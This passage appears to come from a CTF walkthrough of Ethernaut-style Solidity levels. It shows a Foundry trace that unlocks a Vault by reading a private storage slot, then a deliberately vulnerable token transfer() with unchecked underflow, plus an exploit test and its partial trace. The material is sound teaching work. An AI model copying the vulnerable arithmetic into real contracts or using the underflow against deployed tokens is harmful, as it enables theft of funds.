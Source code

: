 ``` text
    ├─ VM::startPrank(attacker)
    ├─ VM::load(Vault, slot 1)
    ├─ Vault::unlock(password)
    ├─ Vault::locked() → false
    ├─ VM::assertFalse(false)
    └─ VM::stopPrank()

Suite result: ok. 1 passed; 0 failed; finished in 1.24ms
```
---

## Level 9:Token

### 🔍 Vulnerable Function

```solidity
 function transfer(address _to, uint256 _value) public returns (bool) {
    unchecked {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
    }
    return true;
}
```

**Vulnerability**: The transfer() function is written with an unchecked block, allowing underflow to occur. When a user transfers more tokens than they own, the subtraction balances[msg.sender] -= _value underflows and wraps around to a massive value (2**256 - x), resulting in an increased balance instead of failing.

📝 Note: This kind of underflow attack was possible before Solidity 0.8.x, which introduced built-in overflow/underflow protection.
To demonstrate this vulnerability in a controlled environment, unchecked is intentionally used to bypass that protection for educational purposes


### 🧪 Exploit Test
```solidity 
   function test_attack() public {
    vm.startPrank(player);
    
    // Initial balance of player: 20 tokens
    assertEq(token.balanceOf(player), 20);

    // Transfer more than balance (21 tokens), triggers underflow
    bool success = token.transfer(attacker, 21);
    assertTrue(success);

    // Player's balance underflows to a very large number
    uint256 _balanceofplayer = token.balanceOf(player);
    assertGt(_balanceofplayer, 20);

    vm.stopPrank();
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 47312)
Traces:
  [47312] TokenTest::test_attack()
    ├─ VM::startPrank(player)
    ├─ Token::balanceOf(player) → 20
    ├─ assertEq(20, 20)
```